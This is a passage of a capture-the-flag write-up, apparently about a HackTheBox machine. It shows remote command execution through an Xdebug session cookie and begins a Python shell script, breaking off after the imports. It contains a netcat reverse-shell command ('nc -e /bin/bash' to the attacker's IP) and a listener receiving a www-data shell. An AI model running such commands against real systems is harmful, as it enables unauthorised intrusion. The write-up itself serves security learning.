 <p>Decoding the data that came back in the <code class="language-plaintext highlighter-rouge">CDATA</code> block, we’ll see it’s part of the ping output:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">root@kali# </span><span class="nb">echo </span><span class="nv">cm91bmQtdHJpcCBtaW4vYXZnL21heC9zdGRkZXYgPSA5NC4zNjEvOTUuMDcyLzk1Ljg2MS8wLjU2MiBtcw</span><span class="o">==</span> | <span class="nb">base64</span> <span class="nt">-d</span>
<span class="go">round-trip min/avg/max/stddev = 94.361/95.072/95.861/0.562 ms
</span></code></pre></div></div>

<p>Even better, if we look at the curl command, which has not returned yet, we get the output:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">root@kali# </span>curl http://10.10.10.83 <span class="nt">-H</span> <span class="s2">"Cookie: XDEBUG_SESSION=wpOCvcWXx5"</span>
<span class="go">PING 10.10.14.5 (10.10.14.5): 56 data bytes
64 bytes from 10.10.14.5: icmp_seq=0 ttl=62 time=18.276 ms
--- 10.10.14.5 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max/stddev = 18.276/18.276/18.276/0.000 ms
</span></code></pre></div></div>

<h3 id="shell">Shell</h3>

<p>From the python script above, we’ll give <code class="language-plaintext highlighter-rouge">nc -e</code> a try and get lucky (since most hosts don’t have the <code class="language-plaintext highlighter-rouge">-e </code>option):</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">&gt;&gt;</span><span class="w"> </span>system<span class="o">(</span><span class="s2">"nc -e /bin/bash 10.10.14.5 8087"</span><span class="o">)</span>
</code></pre></div></div>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">root@kali# </span>nc <span class="nt">-lnvp</span> 8087
<span class="go">listening on [any] 8087 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.83] 57586
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</span></code></pre></div></div>

<h3 id="script-to-get-shell">Script to get shell</h3>

<p>Wrote script to get shell as www-data, <code class="language-plaintext highlighter-rouge">get_olympic_www_shell.py</code></p>

<div class="language-python highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="c1">#!/usr/bin/env python3
</span>
<span class="kn">from</span> <span class="n">base64</span> <span class="kn">import</span> <span class="n">b64encode</span>
<span class="kn">import</span> <span class="n">requests</span>
<span class="kn">import</span> <span class="n">socket</span>
<span class="kn">import</span> <span class="n">sys</span>

